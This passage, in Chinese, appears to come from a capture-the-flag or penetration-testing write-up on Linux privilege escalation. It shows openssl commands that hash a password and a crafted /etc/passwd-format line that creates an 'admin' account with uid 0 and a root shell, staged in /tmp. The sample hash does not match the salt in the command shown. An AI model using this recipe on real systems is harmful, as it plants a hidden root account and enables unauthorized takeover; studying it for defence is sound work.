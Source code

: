 ![image-20230811205855456](./imgs/image-20230811205855456.png)

---

> [openssl passwd 手动生成密码](https://blog.csdn.net/qq_50854790/article/details/122769363)
>
> [openssl passwd计算密码Hash](https://blog.csdn.net/xuli542683639/article/details/130876017)

**使用`openssl`生成一个加密的密码，由于`/tmp`目录可写，所以直接将伪用户输入到该目录下；**

```bash
openssl passwd -1 -salt Egon Egon
```

`$1$admin$1kgWpnZpUx.vTroWPXPIB0`



然后构造成跟`/etc/passwd`下的一样的格式，保存在pass文件中

> **`/etc/passwd`格式：**
>
> 用户名:密码hash值:uid:gid:说明:家目录:登陆后使用的shell

```bash
echo 'admin:$1$admin$1kgWpnZpUx.vTroWPXPIB0:0:0::/root:/bin/bash' > /tmp/passwd
```

> \$1\$表示使用MD5算法；\$2a\$表示使用Blowfish算法；
>
> \$2y\$是另一算法长度的Blowfish；\$5\$表示SHA-256算法；\$6\$表示SHA-512算法；
>
> 目前基本上都使用sha-512算法的，但无论是md5还是sha-256都仍然支持；
>
> \$salt\$是加密时使用的salt，hashed才是真正的密码部分；
